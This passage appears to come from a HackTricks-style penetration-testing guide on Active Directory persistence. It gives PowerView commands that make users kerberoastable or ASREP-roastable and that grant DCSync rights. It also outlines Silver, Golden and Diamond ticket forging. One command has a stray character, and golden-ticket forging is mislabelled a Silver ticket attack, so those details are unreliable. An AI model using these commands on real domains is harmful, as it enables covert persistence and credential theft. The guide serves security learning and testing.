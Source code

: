 ```

[[https://github.com/carlospolop/hacktricks/blob/master/windows-hardening/active-directory-methodology/broken-reference/README.md|**More information about how to steal the NTDS.dit can be found here**]]

### Privesc as Persistence

Some of the techniques discussed before can be used for persistence.\
For example you could:

- Make users vulnerable to [[kerberoast.md|**Kerberoast**]]

  ```bash
  Set-DomainObject -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}r
  ```

- Make users vulnerable to [[asreproast.md|**ASREPRoast**]]

  ```bash
  Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
  ```

- Grant [[#dcsync|**DCSync**]] privileges to a user

  ```bash
  Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync
  ```

### Silver Ticket

The **Silver Ticket attack** creates a **legitimate Ticket Granting Service (TGS) ticket** for a specific service by using the **NTLM hash** (for instance, the **hash of the PC account**). This method is employed to **access the service privileges**.

[[silver-ticket.md]]

### Golden Ticket

A **Golden Ticket attack** involves an attacker gaining access to the **NTLM hash of the krbtgt account** in an Active Directory (AD) environment. This account is special because it's used to sign all **Ticket Granting Tickets (TGTs)**, which are essential for authenticating within the AD network.

Once the attacker obtains this hash, they can create **TGTs** for any account they choose (Silver ticket attack).

[[golden-ticket.md]]

### Diamond Ticket

These are like golden tickets forged in a way that **bypasses common golden tickets detection mechanisms.**

[[diamond-ticket.md]]

### **Certificates Account Persistence**
